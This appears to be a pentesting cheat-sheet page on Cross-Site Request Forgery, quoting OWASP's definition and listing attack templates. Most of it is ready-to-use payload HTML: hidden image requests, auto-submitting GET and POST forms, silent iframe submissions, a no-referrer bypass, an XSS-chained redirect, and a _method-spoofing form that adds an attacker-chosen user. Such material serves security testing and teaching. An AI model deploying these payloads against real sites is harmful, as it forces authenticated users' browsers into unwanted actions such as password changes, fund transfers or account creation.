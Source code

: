 # CSRF

> Cross-Site Request Forgery \(CSRF\) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : \[OWASP\]\([https://www.owasp.org/index.php/Cross-Site\_Request\_Forgery\_\(CSRF\)\_Prevention\_Cheat\_Sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29_Prevention_Cheat_Sheet)\)

## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker
* Server do not check the `Referer` Header
* Action should be interesting for the attacker
  * Password Change
  * Settings Change
  * Personal Informations Change
  * ...

## GET Requests Exploits

### Invisible mage Loading

`<img style="display:none;" src="http://vulnerablesite/vuln?param1=value1&param2=value2&..."/>`

### Link clicking

`<link href="http://vulnerablesite/vuln?param1=value1&param2=value2&...">`

### Form Auto-Submission

```markup
<html>
    <head>
          <meta charset="UTF-8">
    </head>     
    <body>
        <form action="http://vulnerablesite/vuln" method="GET"> 
            <input type="hidden" name="param1" value="value1"/>
        </form>
        <script> document.forms[0].submit();</script>  
    </body>
</html>
```

### Silent Form Auto-Submission \(No Redirection\)

```markup
<html> 
    <head>
          <meta charset="UTF-8">
    </head> 
    <body>
        <iframe style="display:none" name="invisible-frame"></iframe>
        <form method='GET' action='http://vulnerablesite/vuln' target="invisible-frame" id="pwn-form">
          <input type='hidden' name='param1' value='value1'>
          <input type='submit' value='submit'>
        </form>
        <script>document.getElementById("pwn-form").submit()</script>
    </body>
</html>
```

## POST Requests Exploits

### Form Auto-Submission

```markup
<html> 
    <head>
          <meta charset="UTF-8">
    </head> 
    <body>
        <form action="http://vulnerablesite/vuln" method="POST"> 
            <input type="hidden" name="param1" value="value1"/>
        </form>
        <script> document.forms[0].submit();</script>  
    </body>
</html>
```

### Silent Form Auto-Submission \(No Redirection\)

```markup
<html> 
    <head>
          <meta charset="UTF-8">
    </head>     
    <body>
        <iframe style="display:none" name="invisible-frame"></iframe>
        <form method='POST' action='http://vulnerablesite/vuln' target="invisible-frame" id="pwn-form">
          <input type='hidden' name='param1' value='value1'>
          <input type='submit' value='submit'>
        </form>
        <script>document.getElementById("pwn-form").submit()</script>
    </body>
</html>
```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.
* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy.

## Protection Bypass

### Referer Header Check Bypass

#### Send a request with no `Referer` header

`<meta name="referrer" content="no-referrer">`

#### Chain CSRF vulnerability with XSS

`POST http://vulnerablesite/xssvuln?id=<script type="text/javascript">window.location="http://vulnerablesite/vuln";</script>`

### HTTP Method Check Bypass through HTTP Method Tunneling :

#### `X-HTTP-Method-Override` Method

Not all clients can properly issue all HTTP Methods, then some servers offer an HTTP Method Tunneling feature that enables us to "encapsulate" an HTTP Method into another. To do so simply write the HTTP Method request to invoke in an `X-HTTP-Method-Override` HTTP Header and issue the request with a supported method.

This is also a very handy trick to bypass Firewall restrictions on HTTP methods.

#### `_method` Parameter Method

**Supported on :**

**Symfony**

* 2.2 / &gt;=2.3 \([Disabled by default / Enabled by default](https://symfony.com/doc/2.6/cookbook/routing/method_parameters.html#faking-the-method-with-method)\)

**Laravel**

* &gt;=4.1 \([Enabled by default](https://laravel.com/docs/5.6/routing#form-method-spoofing)\)

```markup
<html>
    <body>
        <form action="http://[HOST]/user/add" method="POST">
            <input name="_method" type="hidden" value="ARBITRARY_METHOD" />
            <input name="user" type="hidden" value="hacker" />
            <input name="password" type="hidden" value="pwd" />
        </form>
        <script>document.forms[0].submit()</script>
    </body>
</html>
```

#### References :

[Minded Security - Request parameter "\_method" may lead to CakePHP CSRF Token Bypass](http://blog.mindedsecurity.com/2016/01/request-parameter-method-may-lead-to.html)

